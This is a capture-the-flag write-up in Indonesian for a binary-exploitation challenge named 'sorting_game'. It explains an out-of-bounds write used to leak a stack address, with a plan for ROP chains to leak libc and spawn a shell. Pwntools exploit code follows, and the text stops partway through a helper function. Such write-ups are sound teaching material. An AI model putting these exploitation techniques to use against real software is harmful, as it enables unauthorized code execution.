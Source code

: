 Terdapat OOB, berarti kita dapat menulis ulang word sebelum array. Karena ini merupakan suatu pointer, maka kita dapat menulis kemana saja! Ya karena PIE dan ASLR hidup, maka tidak terlalu banyak yang kita dapat lakukan, tapi karena kita memiliki sebuah stack leak maka kita dapat menulis suatu _ROP chain_ dengan variabel cost. Setelah itu kita bisa dapatkan libc leak, tulis _ROP chain_ lagi, dan mendapatkan shell

Menulis ke variabel cost agak aneh, tapi menggunakan z3 saya mendapatkan peluang 50% untuk berhasil.

Berikut exploit saya sendiri:

```py


from pwn import *
from z3 import *
import codecs

p = process('./sorting_game')

largest_number = 0x0000fffffffffffe

# print(lst)

lo = 0
hi = largest_number
haha = 54
for j in range(haha):
	mid = (lo + hi) // 2
	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(largest_number))
	p.sendlineafter("nomor bilangan:", str(2))
	p.sendlineafter("baru:", str(largest_number-1))

	for i in range(30):
		p.sendlineafter("nomor bilangan:", str(32-i))
		# print(str(largest_number - i))
		p.sendlineafter("baru:", str(largest_number - 32 + i))

	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(mid))
	ans = p.recvuntil("menang!").decode('ascii')
	if("Anda menang!" in ans):
		hi = mid - 1
	else:
		lo = mid + 1
	if(j != haha-1):
		p.sendlineafter("(Y/N)", 'Y')

stack_leak = lo
print(hex(stack_leak))



def adder(amount, address, not_help=True, aaa = False):

	if(not_help):
		p.sendlineafter("(Y/N)", 'Y')
	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(largest_number))
	p.sendlineafter("nomor bilangan:", str(2))
	p.sendlineafter("baru:", str(largest_number-1))
	p.sendlineafter("nomor bilangan:", str(3))
	p.sendlineafter("baru:", str(largest_number-2))

```